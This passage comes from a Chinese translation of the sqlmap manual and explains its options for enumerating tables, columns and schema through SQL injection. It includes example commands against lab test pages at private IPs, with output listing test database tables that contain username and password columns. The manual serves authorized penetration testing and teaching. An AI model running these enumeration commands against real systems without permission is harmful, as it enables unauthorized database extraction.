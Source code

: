 当前用户有权限读取包含所有数据库列表信息的表中的时候，即可列出所有的数据库。

### 列举数据库表

参数：--tables,--exclude-sysdbs,-D

当前用户有权限读取包含所有数据库表信息的表中的时候，即可列出一个特定数据的所有表。

如果你不提供-D 参数来列指定的一个数据的时候，sqlmap 会列出数据库所有库的所有表。

--exclude-sysdbs 参数是指包含了所有的系统数据库。

需要注意的是在 Oracle 中你需要提供的是 TABLESPACE_NAME 而不是数据库名称。

### 列举数据库表中的字段

参数：--columns,-C,-T,-D

当前用户有权限读取包含所有数据库表信息的表中的时候，即可列出指定数据库表中的字段，同时也会列出字段的数据类型。

如果没有使用-D 参数指定数据库时，默认会使用当前数据库。

列举一个 SQLite 的例子：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/sqlite/get_int.php?id=1" --columns -D testdb -T users -C name
[...]
Database: SQLite_masterdb
Table: users
[3 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| id      | INTEGER |
| name    | TEXT    |
| surname | TEXT    |
+---------+---------+ 
```

### 列举数据库系统的架构

参数：--schema,--exclude-sysdbs

用户可以用此参数获取数据库的架构，包含所有的数据库，表和字段，以及各自的类型。

加上--exclude-sysdbs 参数，将不会获取数据库自带的系统库内容。

MySQL 例子：

```
$ python sqlmap.py -u "http://192.168.48.130/sqlmap/mysql/get_int.php?id=1" --schema --batch --exclude-sysdbs
[...]
Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+

Database: owasp10
Table: blogs_table
[4 columns]
+--------------+----------+
```